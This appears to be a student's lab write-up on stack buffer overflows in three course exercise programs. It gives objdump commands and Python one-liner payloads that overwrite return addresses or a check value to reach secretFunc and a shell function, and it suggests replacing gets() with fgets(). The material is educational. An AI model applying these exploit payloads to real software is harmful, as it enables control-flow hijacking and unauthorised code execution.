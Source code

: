 # LAB 1

## File bof1.c

**Run vitual environment by docker**

>docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab

**Getting secretFunc() address by command**
`objdump -d bof1.out|grep secretFunc`

![alt text](./image/image.png)

**Stack frame**

![alt text](./image/image-1.png)

=> It’s a buffer overflow at the 205th byte.

**Run the program by the command**

- Take advantage of the above statement to automatically input 204 bytes of the letter 'a', then insert the address of the `secretFunc` function.
- placement byte (204byte) + address secretFunc(\x6b\x84\x04\x08)

 > echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out

![alt text](./image/image-2.png)

=> Successful Attack

=> To prevent exploitation in this case, I will replace `gets()` with `fgets()` to ensure the correct limit of array a is respected.


## File bof2.c

**Summarizing**

- In this case, the array buf[] has 40 elements, but the `fgets()` command reads up to 44 elements `(fgets(buf, 45, stdin))`, with the last element reserved for `\0`, the null terminator character.

 => We rely on the last 4 elements to modify the check.

**Stackframe**

![alt text](./image/image-3.png)

**Run the program with the command**

![alt text](./image/image-5.png)

>echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out

![alt text](./image/image-6.png)

=> Successfully


## File bof3.c

**Summarizing**

- In this case, the `buf[]` array has 128 elements, but the `fgets()` command reads up to 133 elements.

 => We rely on 4 elements to replace the address addition function into the address function shell

**Stack frame**

![alt text](./image/image-7.png)

**Get the address of the shell function:**
`objdump -d bof3.out|grep shell`

![alt text](./image/image-8.png)

**Run the program with the command**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

![alt text](./image/image-9.png)

=> Seccessful
